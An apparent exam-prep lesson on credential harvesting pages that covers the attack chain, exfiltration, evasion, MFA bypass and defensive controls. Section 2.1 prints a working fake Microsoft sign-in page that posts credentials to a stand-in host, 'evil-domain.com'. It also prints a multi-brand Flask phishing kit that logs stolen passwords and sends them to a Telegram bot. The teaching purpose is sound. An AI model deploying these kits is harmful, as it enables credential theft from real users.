


---
tags: [email-security]
---
# 🎣 Full-Stack Lesson: Credential Harvesting Pages

## TCM Exam Objectives
- Describe the credential harvesting attack chain: lure → fake login page → exfiltration → redirect to legitimate site
- Identify common data exfiltration methods: form POST, AJAX/Fetch, WebSockets, DNS tunneling, Telegram API, cloud storage APIs
- Explain evasion techniques: homograph domains, cloaking, JavaScript obfuscation, fast flux, canvas fingerprinting
- Recognize credential harvesting vs. credential stuffing — the distinction between tricking users vs. automated brute-force
- Analyze phishing kit components: dynamic page generation, multi-brand support, Telegram integration, session token theft
- Describe MFA bypass techniques: reverse proxy (EvilGinx), MFA fatigue, session cookie theft, OAuth token interception
- Implement detection controls: email security gateway (SPF/DKIM/DMARC + URL sandboxing), web filtering, endpoint behavioral analysis
- Understand phishing-as-a-service (PhaaS) business models and how industrialization has lowered the barrier for attackers



## 1. 🔍 Fundamentals of Credential Harvesting

### 1.1 What is Credential Harvesting?
**Credential harvesting** is the process of collecting authentication credentials (usernames, passwords, MFA tokens) through deceptive means, typically via fraudulent websites that mimic legitimate services 【turn0search0】【turn0search12】. These pages are designed to trick users into voluntarily entering their sensitive information, which is then captured by attackers.

> 💡 **Key Distinction**: Unlike credential stuffing (which uses automated tools to test stolen credentials), harvesting actively tricks users into entering their credentials on fake pages 【turn0search14】.

### 1.2 Position in the Attack Chain
Credential harvesting pages typically serve as the **initial access vector** in broader cyber attack campaigns:

```mermaid
flowchart LR
    A[Reconnaissance] --> B[Social Engineering]
    B --> C[Credential Harvesting Page]
    C --> D[Credential Theft]
    D --> E[Account Takeover]
    E --> F[Lateral Movement]
    F --> G[Data Exfiltration]
    G --> H[Impact & Monetization]
    
    style C fill:#ff6,stroke:#333,stroke-width:2px
    style D fill:#f66,stroke:#333,stroke-width:2px
```



### 1.3 Motivations & Impact
- **Direct Financial Gain**: Stolen credentials sold on dark web markets or used for fraudulent transactions
- **Enterprise Access**: Gateway to corporate networks, email accounts, and sensitive databases 【turn0search7】
- **Healthcare Targeting**: Access to patient records, billing systems, and medical research 【turn0search7】
- **Supply Chain Attacks**: Compromised credentials used to access third-party systems
- **Account Takeover**: Hijacking email, social media, and financial accounts

📌 **Exam Tip:** Know the difference between credential harvesting and credential stuffing. Harvesting tricks users into *voluntarily* entering credentials on fake pages. Stuffing uses *already-stolen* credentials in automated login attempts. Harvesting targets the human; stuffing targets the authentication system. Both are often used together in attack chains.

```mermaid
flowchart TB
    ATTACK[Phishing Campaign] --> LURE[Email with urgent pretext<br/>"Account suspended - Verify now"]
    LURE --> FAKE[Fake Login Page<br/>Clones legitimate branding]
    FAKE --> USER[User enters credentials]
    USER --> EXFIL[Credentials exfiltrated<br/>via AJAX POST to C2]
    EXFIL --> REDIR[Redirect to real site<br/>User unaware of compromise]
    EXFIL --> ATTACKER[Attacker receives credentials]
    ATTACKER --> SESSION[Attempt login at real site]
    SESSION --> MFA{Is MFA enabled?}
    MFA -->|No| TAKEOVER[Full account takeover]
    MFA -->|Yes| BYPASS{MFA Bypass?}
    BYPASS -->|Reverse Proxy<br/>EvilGinx| HARVEST[MFA token harvested<br/>in real-time via proxy]
    BYPASS -->|Fatigue| SPAM[Spam push notifications<br/>until user approves]
    BYPASS -->|Session Cookie| STEAL[Steal session cookie<br/>bypasses MFA entirely]
```

## 2. ⚙️ Technical Anatomy of Harvesting Pages

### 2.1 Page Architecture & Implementation

<details>
<summary>🔧 Technical Implementation Details</summary>

#### Basic HTML/JS Implementation
```html
<!DOCTYPE html>
<html>
<head>
    <title>Microsoft Online - Sign In</title>
    <style>
        /* Copy legitimate Microsoft styling */
        body { font-family: 'Segoe UI', sans-serif; }
        .login-container { width: 440px; margin: 0 auto; padding: 20px; }
        .form-group { margin-bottom: 15px; }
        input[type="email"], input[type="password"] {
            width: 100%; padding: 10px; margin-bottom: 10px;
            border: 1px solid #ccc; border-radius: 4px;
        }
        .btn { background-color: #0067b8; color: white; padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; }
    </style>
</head>
<body>
    <div class="login-container">
        <h2>Sign in to your Microsoft account</h2>
        <form id="loginForm" action="https://evil-domain.com/harvest" method="POST">
            <div class="form-group">
                <input type="email" name="email" placeholder="Email, phone, or Skype" required>
            </div>
            <div class="form-group">
                <input type="password" name="password" placeholder="Password" required>
            </div>
            <button type="submit" class="btn">Sign in</button>
        </form>
    </div>
    <script>
        // Prevent form submission to legitimate domain
        document.getElementById('loginForm').addEventListener('submit', function(e) {
            e.preventDefault();
            // Collect credentials
            const email = document.querySelector('input[name="email"]').value;
            const password = document.querySelector('input[name="password"]').value;
            
            // Exfiltrate data
            fetch('https://evil-domain.com/collect', {
                method: 'POST',
                body: JSON.stringify({email, password, timestamp: Date.now()}),
                headers: {'Content-Type': 'application/json'}
            }).then(() => {
                // Redirect to legitimate site to avoid suspicion
                window.location.href = 'https://login.microsoftonline.com';
            });
        });
    </script>
</body>
</html>
```

#### Advanced Dynamic Page Generation
```python
# Python-based phishing kit example
from flask import Flask, request, render_template_string, redirect
import requests

app = Flask(__name__)

# Dynamic page template
PAGE_TEMPLATE = '''
<!DOCTYPE html>
<html>
<head>
    <title>{{ service_name }} - Sign In</title>
    <style>
        /* Dynamic styling based on target service */
        body { font-family: {{ font_family }}; }
        .login-box { width: 350px; margin: 0 auto; padding: 20px; }
        .btn { background-color: {{ primary_color }}; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Sign in to {{ service_name }}</h2>
        <form method="POST" action="/harvest">
            <input type="email" name="username" placeholder="Email" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <button type="submit">Sign in</button>
        </form>
    </div>
</body>
</html>
'''

@app.route('/<service>')
def phishing_page(service):
    # Configure based on target service
    services = {
        'microsoft': {'name': 'Microsoft', 'font': 'Segoe UI', 'color': '#0067b8'},
        'google': {'name': 'Google', 'font': 'Roboto', 'color': '#4285f4'},
        'apple': {'name': 'Apple', 'font': 'SF Pro', 'color': '#007aff'}
    }
    config = services.get(service, services['microsoft'])
    return render_template_string(PAGE_TEMPLATE, 
                                service_name=config['name'],
                                font_family=config['font'],
                                primary_color=config['color'])

@app.route('/harvest', methods=['POST'])
def harvest_credentials():
    # Collect credentials
    username = request.form.get('username')
    password = request.form.get('password')
    user_ip = request.remote_addr
    user_agent = request.headers.get('User-Agent')
    
    # Log to file/database
    with open('stolen_credentials.txt', 'a') as f:
        f.write(f"{username}:{password}:{user_ip}:{user_agent}\n")
    
    # Optional: Send to Telegram channel
    telegram_message = f"🎯 New Credentials Captured!\n📧 Email: {username}\n🔒 Password: {password}\n🌐 IP: {user_ip}"
    requests.post(f"https://api.telegram.org/bot{TOKEN}/sendMessage", 
                 data={'chat_id': CHANNEL_ID, 'text': telegram_message})
    
    # Redirect to legitimate service
    return redirect(f"https://login.{request.args.get('service', 'microsoft')}.com")
```
</details>

### 2.2 Data Exfiltration Methods

| Method | Description | Detection Difficulty | Evasion Techniques |
|--------|-------------|----------------------|-------------------|
| **Form POST to Attacker Server** | Traditional form submission to malicious domain | Medium | URL shorteners, dynamic domains |
| **AJAX/Fetch API** | Asynchronous data transmission without page reload | High | Obfuscated JavaScript, CORS exploitation |
| **WebSockets** | Persistent connection for real-time exfiltration | Very High | Encrypted WebSocket traffic |
| **DNS Tunneling** | Data encoded in DNS queries to attacker-controlled domains | High | DNS over HTTPS, domain generation algorithms |
| **Telegram Bot API** | Credentials sent to Telegram channels 【turn0search6】 | High | Uses legitimate Telegram infrastructure |
| **Cloud Storage APIs** | Data uploaded to legitimate cloud services (Google Drive, Dropbox) | Very High | Uses API keys, appears as normal traffic |

### 2.3 Evasion Techniques

<details>
<summary>🛡️ Advanced Evasion Strategies</summary>

#### 1. **Domain Evasion**
- **Homograph Attacks**: Using internationalized domain names (IDN) to create lookalike domains (e.g., `аpple.com` using Cyrillic 'а')
- **Domain Tasting**: Registering domains for short periods to avoid blacklisting
- **Subdomain Spoofing**: Using legitimate subdomains (e.g., `login.accounts.google.com.evil.com`)
- **Certificate Misissuance**: Obtaining SSL certificates for lookalike domains

#### 2. **Content Evasion**
- **Cloaking**: Serving different content to security scanners vs. real users
- **JavaScript Obfuscation**: Minifying and obfuscating malicious scripts
- **Canvas Fingerprinting**: Detecting headless browsers used by scanners
- **Time-based Triggers**: Activating malicious behavior only after delays

#### 3. **Infrastructure Evasion**
- **Fast Flux**: Rapidly changing IP addresses associated with domains
- **Domain Generation Algorithms**: Algorithmically generated domains for C2
- **Legitimate Infrastructure**: Using GitHub, Google Drive, or other trusted services for hosting
- **Compromised Legitimate Sites**: Injecting harvesting forms into legitimate websites

#### 4. **User Agent Evasion**
- **Browser Fingerprinting**: Detecting and avoiding security tools
- **Mobile-specific Versions**: Different pages for mobile vs. desktop
- **Geofencing**: Only displaying phishing pages to specific regions
</details>

## 3. 🎯 Attack Vectors & Delivery Methods

### 3.1 Phishing Campaigns
The primary delivery method for credential harvesting pages, often using:
- **Email Lures**: Urgent security alerts, package delivery notices, tax notifications 【turn0search10】
- **Spear Phishing**: Targeted emails using personal information for credibility
- **Business Email Compromise (BEC)**: Impersonating executives or partners 【turn0search7】
- **Brand Impersonation**: Mimicking well-known services like Microsoft, Google, or Apple

### 3.2 Malvertising & Compromised Websites
- **Malicious Advertisements**: Ads redirecting to harvesting pages 【turn0search20】
- **Website Compromise**: Injecting malicious code into legitimate websites
- **Pop-up Phishing**: Overlaying fake login forms on legitimate sites 【turn0search20】
- **Browser Notifications**: Abusing push notification features

### 3.3 Social Engineering Channels
- **SMS/Text Messages (Smishing)**: Mobile-targeted credential theft
- **Voice Calls (Vishing)**: Phone-based credential harvesting
- **Social Media**: Direct messages with malicious links
- **Search Engine Optimization (SEO) Poisoning**: Manipulating search results to promote phishing pages

## 4. 🛡️ Detection & Defense Strategies

### 4.1 Email Security Solutions
 

<details>
<summary>📧 Email Security Implementation</summary>

#### Key Capabilities:
1. **URL Analysis & Rewriting** 【turn0search1】
   - Real-time scanning of embedded links
   - Sandboxing suspicious URLs
   - Time-of-click protection through link rewriting

2. **Machine Learning Detection**
   - Analyzing email content and structure
   - Detecting brand impersonation attempts
   - Identifying urgency cues and psychological triggers

3. **Sender Authentication**
   - SPF, DKIM, and DMARC validation 【turn0search1】
   - Detecting email spoofing and domain impersonation
   - Analyzing sender reputation and behavior patterns

4. **Attachment Scanning**
   - Malware detection in attached documents
   - Script analysis in Office documents
   - Sandbox execution of suspicious attachments

#### Implementation Example:
```python
# Email security gateway logic
def analyze_email(email_content, sender, recipients):
    # 1. Check sender authentication
    auth_results = check_spf_dkim_dmarc(sender)
    
    # 2. Analyze URLs
    urls = extract_urls(email_content)
    url_analysis = []
    for url in urls:
        # Check reputation
        reputation = check_url_reputation(url)
        # Analyze in sandbox if needed
        if reputation == 'suspicious':
            sandbox_result = sandbox_url(url)
            url_analysis.append(sandbox_result)
        else:
            url_analysis.append(reputation)
    
    # 3. Content analysis
    content_score = analyze_content(email_content)
    urgency_score = detect_urgency(email_content)
    brand_impersonation = detect_brand_impersonation(email_content)
    
    # 4. Make decision
    if auth_results['dmarc'] == 'fail' or 'malicious' in url_analysis:
        action = 'block'
    elif 'suspicious' in url_analysis or content_score > 0.7:
        action = 'quarantine'
    else:
        action = 'deliver'
    
    return {
        'action': action,
        'reasons': {
            'authentication': auth_results,
            'urls': url_analysis,
            'content': content_score,
            'urgency': urgency_score,
            'brand': brand_impersonation
        }
    }
```
</details>

### 4.2 Web Security Controls


| Control | Implementation | Effectiveness | Limitations |
|---------|----------------|---------------|-------------|
| **URL Filtering** | Blacklists, category-based blocking | Medium-High | Fast flux domains, new domains |
| **SSL Inspection** | Decrypt and inspect HTTPS traffic | High | Privacy concerns, certificate pinning |
| **Web Application Firewalls** | Pattern detection, rate limiting | Medium | Evasion through obfuscation |
| **DNS Filtering** | Block requests to known malicious domains | High | DNS tunneling, DoH encryption |
| **Browser Security** | Built-in phishing protections, extensions | Medium | User override, limited enterprise control |

### 4.3 Endpoint Protection


<details>
<summary>💻 Endpoint Detection Strategies</summary>

#### 1. **Browser Monitoring**
- **Credential Entry Detection**: Monitoring for credential entry on known phishing sites
- **Form Analysis**: Analyzing form submissions for suspicious patterns
- **URL Reputation Checking**: Real-time verification of visited URLs

#### 2. **Memory Protection**
- **Credential Guard**: Isolating credentials in memory (Windows Defender Credential Guard)
- **Local Security Authority Protection**: Preventing credential dumping
- **Browser Process Protection**: Monitoring browser process memory for credential exposure

#### 3. **Behavioral Analysis**
- **Anomalous Login Patterns**: Detecting logins from unusual locations or times
- **Credential Reuse Detection**: Identifying same credentials across multiple services
- **Session Hijacking Detection**: Detecting token theft and session anomalies

#### 4. **Application Control**
- **Whitelisting legitimate applications**: Preventing execution of malicious tools
- **Script blocking**: Restricting PowerShell, JavaScript, and other scripting languages
- **Macro protection**: Disabling or sandboxing Office macros
</details>

### 4.4 User Education & Awareness


<details>
<summary>🎓 Security Awareness Program Components</summary>

#### 1. **Phishing Simulation Program**
- Regular simulated phishing campaigns
- Role-based training (finance, HR, executives)
- Immediate feedback and training for failures
- Metrics tracking (click rates, reporting rates)

#### 2. **Recognition Training**
- Identifying phishing indicators (urgency, generic greetings, suspicious URLs)
- Verifying sender authenticity
- Checking website security indicators (HTTPS, valid certificates)
- Recognizing brand impersonation attempts

#### 3. **Reporting Mechanisms**
- Easy-to-use reporting buttons in email clients
- Clear escalation procedures for suspected phishing
- Feedback loop to inform users about reported emails
- Recognition for accurate reporting

#### 4. **Password Security Practices**
- Unique passwords for each account (password managers)
- Multi-factor authentication everywhere possible
- Recognizing phishing attempts targeting MFA tokens
- Secure password reset procedures
</details>

## 5. 🚨 Incident Response & Recovery

### 5.1 Detection Indicators
- **User Reports**: Employees reporting suspicious emails or websites
- **Security Alerts**: SIEM correlations for phishing patterns
- **Anomalous Logins**: Unusual access patterns or locations
- **Credential Dumps**: Finding stolen credentials in breach databases
- **Network Traffic**: Communications with known phishing infrastructure

### 5.2 Response Framework



### 5.3 Recovery Actions
1. **Immediate Actions**
   - Force password resets for all affected accounts
   - Revoke active sessions and tokens
   - Block identified malicious domains and IP addresses
   - Preserve evidence for forensic analysis

2. **Investigation**
   - Determine scope of compromise
   - Identify data accessed with stolen credentials
   - Trace attacker movements post-compromise
   - Assess business impact

3. **Long-term Improvements**
   - Implement additional security controls based on findings
   - Update phishing detection rules
   - Enhance user training programs
   - Review and update incident response procedures

## 6. 📈 Emerging Trends & Future Threats

📌 **Exam Tip:** Phishing-as-a-Service (PhaaS) is a key exam concept. These are subscription-based phishing kits that include hosting, templates, evasion, and support. The industrialization lowers the barrier to entry — attackers no longer need technical skills. Know examples: Flask-based kits, Telegram-integrated kits with real-time exfiltration, and multi-brand combo kits that impersonate Microsoft, Google, and Apple simultaneously.

### 6.1 Industrialization of Phishing


The threat landscape is shifting from individual actors to **phishing-as-a-service (PhaaS)** models 【turn0search6】【turn0search9】:

<details>
<summary>🏭 Phishing Kit Ecosystem</summary>

#### 1. **Kit Characteristics**
- **Modular Design**: Customizable components for different targets
- **Multi-Brand Support**: Impersonating multiple brands simultaneously 【turn0search7】
- **Automation**: Automated deployment and management
- **Evasion Built-in**: Pre-configured evasion techniques

#### 2. **Business Models**
- **Subscription Services**: Monthly access to kits and infrastructure
- **Affiliate Models**: Profit-sharing for successful campaigns
- **Custom Development**: Bespoke kits for specific targets
- **Support Services**: Customer service for criminals

#### 3. **Notable Examples**
- **Flask Phishing Kit**: Python-based kit using Flask framework 【turn0search5】
- **CastleLoader Ecosystem**: MaaS platform with multiple clusters 【turn0search9】
- **Combo Kits**: Impersonating multiple brands at once 【turn0search7】
- **Telegram-Integrated Kits**: Real-time exfiltration via Telegram 【turn0search6】
</details>

### 6.2 AI-Enhanced Phishing


Artificial intelligence is transforming phishing capabilities:
- **Hyper-personalized Lures**: Using AI to analyze targets and craft convincing messages
- **Dynamic Page Generation**: AI creating real-time customized phishing pages
- **Bypassing Detection**: Machine learning to evade security filters
- **MFA Bypass**: AI-assisted techniques to circumvent multi-factor authentication 【turn0search9】

### 6.3 Session Hijacking & Advanced Techniques
Beyond credential theft, modern harvesting pages increasingly target:
- **Session Tokens**: Stealing authenticated session cookies
- **Browser Credentials**: Extracting saved passwords from browsers 【turn0search11】
- **Authentication Flows**: Intercepting OAuth and SAML tokens
- **MFA Fatigue**: Using repeated MFA prompts to wear down users 【turn0search9】

## 7. 🛠️ Mitigation Framework & Best Practices

### 7.1 Prevention Layer

| Control | Implementation | Priority | Effectiveness |
|---------|----------------|----------|---------------|
| **Email Authentication** | SPF, DKIM, DMARC enforcement | High | 80-90% reduction in spoofing |
| **Advanced Threat Protection** | ML-based email scanning | High | 70-80% detection rate |
| **URL Rewriting** | Time-of-click URL protection | High | 60-70% additional detection |
| **User Training** | Regular phishing simulations | Medium | 30-50% reduction in clicks |
| **Password Managers** | Prevent credential reuse | Medium | Eliminates password reuse |

### 7.2 Detection Layer
- **Behavioral Analytics**: Detecting anomalous login patterns
- **UEBA**: User and Entity Behavior Analytics for credential misuse
- **Threat Intelligence**: Integration with feeds of known phishing infrastructure
- **Deception Technology**: Honeypot credentials and fake login pages

### 7.3 Response Layer
- **Automated Remediation**: Auto-blocking of malicious domains
- **Account Isolation**: Quick containment of compromised accounts
- **Credential Revocation**: Rapid reset of affected credentials
- **Forensic Capabilities**: Investigation and attribution tools

## 8. 📊 Measuring Effectiveness & Metrics

### 8.1 Key Performance Indicators

| Metric | Target | Industry Benchmark | Measurement Method |
|--------|--------|-------------------|-------------------|
| **Phishing Click Rate** | < 5% | 10-15% | Simulated phishing results |
| **Reporting Rate** | > 40% | 20-30% | User reports of suspicious emails |
| **Mean Time to Detect** | < 1 hour | 2-4 hours | SIEM alerting time |
| **Mean Time to Respond** | < 4 hours | 8-24 hours | Incident response time |
| **Repeat Victim Rate** | < 10% | 15-25% | Users failing multiple simulations |

### 8.2 Continuous Improvement
- **Regular Assessments**: Quarterly phishing simulations and security assessments
- **Metrics Tracking**: Monitoring trends and improvement over time
- **Feedback Loops**: Incorporating lessons learned from incidents
- **Control Optimization**: Tuning detection based on false positives/negatives

## 9. 🎯 Conclusion & Future Outlook

Credential harvesting pages remain a **primary threat vector** for cyber attacks, with phishing being the initial access method in over 90% of successful breaches 【turn0search7】. The industrialization of phishing through kits and services has lowered the technical barrier for attackers while increasing campaign scale and sophistication.

### Key Takeaways:
1. **Defense in Depth**: No single control is sufficient; implement layered defenses
2. **User Education**: Humans remain the weakest link; continuous training is essential
3. **Technical Controls**: Combine email security, web filtering, and endpoint protection
4. **Rapid Response**: Have well-practiced incident response procedures
5. **Threat Intelligence**: Stay informed about evolving phishing techniques and infrastructure

### Future Directions:
- **AI vs. AI**: Machine learning defenses against AI-powered phishing
- **Passwordless Authentication**: Reducing reliance on credentials
- **Behavioral Biometrics**: Continuous authentication based on user behavior
- **Zero Trust Architecture**: Minimizing impact of credential compromise

> ⚠️ **Final Note**: Credential harvesting is not a technical problem to be solved, but an ongoing risk to be managed. Organizations must maintain vigilance, continuously improve defenses, and foster a culture of security awareness to protect against this persistent threat.

---

**📚 Additional Resources**:
- [CISA Phishing Guidance](https://www.cisa.gov/phishing)
- [NIST SP 800-63B Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [Anti-Phishing Working Group](https://apwg.org/)
- [SANS Security Awareness](https://www.sans.org/security-awareness-training/)

*This lesson provides a comprehensive foundation for understanding and defending against credential harvesting pages. For specific implementation guidance, consult with cybersecurity professionals and refer to vendor documentation for your particular security stack.*